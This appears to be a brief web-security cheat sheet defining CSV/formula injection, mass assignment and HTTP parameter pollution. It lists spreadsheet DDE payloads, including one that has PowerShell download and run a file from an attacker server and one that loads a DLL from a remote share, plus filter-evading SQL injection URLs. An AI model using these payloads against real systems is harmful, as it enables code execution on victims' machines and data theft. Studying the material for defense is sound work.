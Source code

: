 Formula injection:
====
when web application is processing user supplied data in EXPORT functionality spread sheet.

>>> OR
                          
CSV Injection occurs when the data injection occurs when the data in a spreadsheet cell is not properly validated prior to export. 
The attacker usually injects a malicious payload (formula) into the input field.
Once the data is exported, the spreadsheet executes the malicious payload on the assumption of a standard macro.

<h3>Payload:</h3>
           
           DDE ("cmd";"/C calc";"!A0")A0
           @SUM(1+9)*cmd|' /C calc'!A0
           =10+20+cmd|' /C calc'!A0
           =cmd|' /C notepad'!'A1'
           =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
           =cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

<h3>Mass Assignment</h3>
    
 When there are 2 parameters and the user insert the third un-recognised parameter and aceepted without validating is described as Mass assignment.h3
 
 <h3>HTTP Parameter Pollution</h3>
  
  HTTP Parameter Pollution (HPP) is a Web attack evasion technique that allows an attacker to craft a HTTP request in order to manipulate or retrieve hidden information. 
   For example:
   
   Regular attack: http://webApplication/showproducts.asp?prodID=9 UNION SELECT 1,2,3 FROM Users WHERE id=3 —

Attack using HPP: http://webApplication/showproducts.asp?prodID=9 /*&prodID=*/UNION /*&prodID=*/SELECT 1 &prodID=2 &prodID=3 FROM /*&prodID=*/Users /*&prodID=*/ WHERE id=3 —- -
    
